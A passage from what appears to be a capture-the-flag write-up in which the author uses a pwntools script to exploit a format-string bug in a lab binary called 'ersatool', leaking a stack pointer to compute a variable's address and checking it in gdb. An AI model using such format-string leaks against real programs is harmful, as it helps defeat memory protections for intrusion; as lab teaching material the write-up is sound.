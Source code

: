 ```

gdb-peda$ p &EXT - &ERSA_DIR
warning: Type size unknown, assuming 1. Try casting to a known type, or void *.
$9 = 0x6f

```

I’ll start a script that will handle using the format vuln to leak the address of `ERSA_DIR`:

```

#!/usr/bin/env python3

from pwn import *

p = process('./ersatool')

p.recv(64)               # read # prompt
p.sendline(b"print")     # enter print menu
p.recvuntil(b"CN=")      # read up to CN= prompt
p.sendline(b"%016p")     # get first pointer from the stack
leak = p.recv(1024)    
ext_addr = int(leak.split(b'[')[0], 16)    
ersa_dir_addr = ext_addr - 0x6f    

log.success(f'Leaked EXT address:          0x{ext_addr:016x}')    
log.success(f'Calculated ERSA_DIR address: 0x{ersa_dir_addr:016x}')       

p.interactive()

```

I have the `p.interactive()` at the end so that the process doesn’t die, and I can connect `gdb` to it and verify the results. When I run, it prints what looks like a good leak:

```

oxdf@parrot$ python3 root.py 
[+] Starting local process './ersatool': pid 540189
[+] Leaked EXT address:          0x00005648ade1615f
[+] Calculated ERSA_DIR address: 0x00005648ade160f0
[*] Switching to interactive mode
$

```

Running `sudo gdb -p $(pidof ersatool)` will attach `gdb` to that pid, and it worked:

```

gdb-peda$ p &ERSA_DIR 
$1 = (<data variable, no debug info> *) 0x5648ade160f0 <ERSA_DIR>

```
